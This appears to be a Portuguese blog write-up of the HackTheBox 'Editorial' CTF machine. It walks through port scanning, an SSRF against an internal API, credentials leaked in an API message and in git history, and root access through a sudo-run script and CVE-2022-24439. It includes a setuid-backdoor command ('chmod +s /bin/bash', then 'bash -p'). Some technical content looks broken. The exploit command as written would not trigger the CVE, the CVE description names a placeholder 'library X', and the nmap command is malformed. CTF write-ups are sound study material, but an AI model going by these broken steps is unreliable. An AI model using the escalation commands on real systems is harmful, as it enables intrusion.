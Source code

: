```yaml
---
layout: post  
title: "Editorial - HackThebox Season 6"  
date: 2024-10-19  
categories: [Hackthebox, CTF, SSRF]  
tags: [Hackthebox, CTF, SSRF]  
---
```


**Dificuldade**: Fácil

## Reconhecimento

Comecei com um scan básico de portas utilizando o **nmap** para identificar os serviços expostos pela máquina.

> Iniciei com um scan básico de portas utilizando o nmap:
> 
> 
> `nmap -vvv -p 10.10.11.20 -sCV -Pn -T4 --min-rate 10000 -oN nma/tcp_default`
> 

```bash
PORT   STATE SERVICE REASON  VERSION                                                                        
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)                   
| ssh-hostkey:                                                                                              
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)                                             
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2Jy
CHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=                                                      
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)                                           
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx                          
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)                                                          
| http-methods:                                                                                             
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enquanto isso, também realizei um fuzzing de diretórios e procurei por vhosts, mas sem sucesso.

## Enumeração

Com base nos serviços descobertos, iniciei a enumeração:

Comecei pelo servidor web e procurei por algo que não fosse estático. Encontrei um pagina de upload:

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/0eec0986-71ed-46c3-bae4-c54d8668791c/image.png?table=block&id=29bb5c29-426f-484e-b334-1ad51efee56c&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=2Opuo3e7zlTCug6cVD9IC8RZH4HBYE51o6WQouzgqrQ&downloadName=image.png)

## Ganho de Acesso Inicial

Depois de algum tempo testando, encontrei um SSRF no parâmetro **bookurl**, onde eu conseguia fazer requisições para minha máquina atacante. Além de forjar uma requisição, eu também conseguia ler a resposta, que era colocada em um arquivo.

💻 **SSRF (Server-Side Request Forgery)**

SSRF permite que um atacante faça requisições HTTP arbitrárias a partir do servidor da vítima, muitas vezes com o objetivo de acessar recursos internos da rede.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/a175d039-9ee1-4d4b-9463-e14e36ceed1e/image.png?table=block&id=532e3a79-3b33-428f-98a0-3663a85fba07&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=LhyxxMgN2eHyChwTLe5DICVFsZPNCy0zxoQTgVaiUsU&downloadName=image.png)

Então, fui tentando algumas coisas e, ao tentar me conectar com portas locais da máquina, obtive sucesso. Comecei a enviar requisições localmente para portas mais conhecidas e acabei encontrando a porta 5000.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/51faa8bc-69f8-417f-bddc-c0b625416d03/image.png?table=block&id=5d828884-5703-4b1e-80e1-1203c4c75811&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=8p4QzxXKGY-AkRg1EWnGprMcxcypLwwNASGAf6pqwJ0&downloadName=image.png)

Ao abrir a resposta recebida, encontrei alguns endpoints:

```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Então, fiz requisições para cada um deles, até chegar no "**/api/latest/metadata/messages/authors**", onde, ao fazer uma requisição, encontrei credenciais:

**dev:dev080217_devAPI!@**

```json
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

A primeira coisa que fiz ao pegar as credenciais foi tentar logar no SSH, e obtive sucesso.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/e2f0a135-3a59-4c02-abce-6c9e27e9121e/image.png?table=block&id=3c921e3d-e133-4c57-b879-3a4775a36992&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=OwZBSVAfb65ZnmzA0BrK7sLEutVT-2WwT-xoaXvJLDI&downloadName=image.png)

## Escalada de Privilégios - prod

No diretório do usuário **dev**, existe uma pasta **app**, mas ela é muito estranha, pois só existe um arquivo **.git**. Então comecei a interagir com esse **.git** e encontrei uma credencial no commit **b73481bb**. Ao dar um `git show` nele, peguei a senha de **prod**:

**prod:080217_Producti0n_2023!@**

```bash
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+  
```

Então usei `su` para logar como o usuário **prod** e obtive sucesso.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/29ddca55-0891-4e18-9bdc-3f453419bde8/image.png?table=block&id=8238fa64-5120-4fa8-9002-f4c0218c5266&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=SZb4xBse1PVwE0EmzGEBCN6At_yZ_HDe86iEqIoA70s&downloadName=image.png)

## Escalada de Privilégios - root

A primeira coisa que fiz ao obter acesso ao usuário **prod** foi verificar as permissões de **sudo** com o comando:.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/76dd8087-c570-45d0-b5ac-97c0cce04c09/image.png?table=block&id=9b9c675c-d4d3-4ddb-abe8-80d413e32975&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729728000000&signature=43zvd77cLL0pXBmmeohr5OS9Y7coAcNOUZnKVqv5qbU&downloadName=image.png)

Ao revisar o conteúdo do script **clone_prod_change.py**, notei que ele fazia uso de uma biblioteca desconhecida. Com isso, fui em busca de vulnerabilidades associadas a essa biblioteca e descobri a [CVE-2022-24439](https://www.cve.org/CVERecord?id=CVE-2022-24439), uma vulnerabilidade de execução remota de código (RCE).

<aside>
💡 CVE-2022-24439: "Essa vulnerabilidade explora uma falha na biblioteca X, permitindo que um atacante execute comandos remotamente devido a uma má validação de entradas."

</aside>

Com base nessa vulnerabilidade, consegui explorá-la e ganhar controle sobre a execução do script, o que me permitiu executar comandos arbitrários.

Para explorar essa falha, utilizei o seguinte comando:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py; /bin/bash -c "chmod +s /bin/bash"
```

Após executar esse comando, bastou rodar **bash -p** para obter privilégios elevados:

```bash
bash -p
```

Com isso, consegui acessar o usuário **root** na máquina.
